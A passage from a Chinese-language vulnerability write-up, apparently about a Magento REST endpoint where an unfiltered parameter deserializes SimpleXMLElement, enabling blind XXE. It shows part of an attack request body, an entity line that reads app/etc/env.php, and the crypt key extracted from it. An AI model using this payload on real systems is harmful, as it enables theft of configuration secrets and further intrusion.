 ```php
                            "shared": true
                        },
                        "tablePrefix": "aaaaaaaaaaaaaaaaaaaaaa"
                    }
                },
                "connectionName": "aaaaaaaaaaaaaaaaaaaaaa"
            },
            "GiftMessageId": 42,
            "CustomerId": 42,
            "Sender": "aaaaaaaaaaaaaaaaaaaaaa",
            "Recipient": "aaaaaaaaaaaaaaaaaaaaaa",
            "Message": "aaaaaaaaaaaaaaaaaaaaaa",
            "ExtensionAttributes": {
                "EntityId": "aaaaaaaaaaaaaaaaaaaaaa",
                "EntityType": "aaaaaaaaaaaaaaaaaaaaaa"
            }
        }
    }
}
```

使用收集的参数
=======

数据根本没有被过滤。例如，如果攻击者发送带有此正文的 HTTP 请求，就会出现有趣的错误。  
像这样  
`"Class \"aaaaaaaaaaaaaaaaaaaaaa\" does not exist",`  
或者  
`"Warning: SessionHandler::read(): open(aaaaaaaaaaaaaaaaaaaaaa\/sess_aaaaaaaaaaaaaaaaaaaaaa, O_RDWR) failed: No such file or directory (2) in ...`

漏洞
==

在参数收集过程中，发现了一个有趣的子参数，并且可以反序列化 `SimpleXMLElement` 。我们看一下构造函数的参数：

```php
public __construct(
    string $data,
    int $options = 0,
    bool $dataIsURL = false,
    string $namespaceOrPrefix = "",
    bool $isPrefix = false
)
```

因此，攻击者可以像经典的 `XXE` 攻击一样在 `data` 中传递参数，并且他也可以控制 `options` ，他可以设置 `LIBXML_NOENT|LIBXML_PARSEHUGE` ，默认情况下禁用。请注意 `dataIsURL` ，因为文章中存在一个有缺陷的补丁，允许攻击者绕过它。  
使用这个XXE盲注进行反向连接，攻击者可以下载 env.php  
`<!ENTITY file SYSTEM "../app/etc/env.php">`  
使用 env.php 中的此键

```php
    'crypt' => [
        'key' => '4ba8fa7a14627e3b812858091ed163ec'
    ],
```
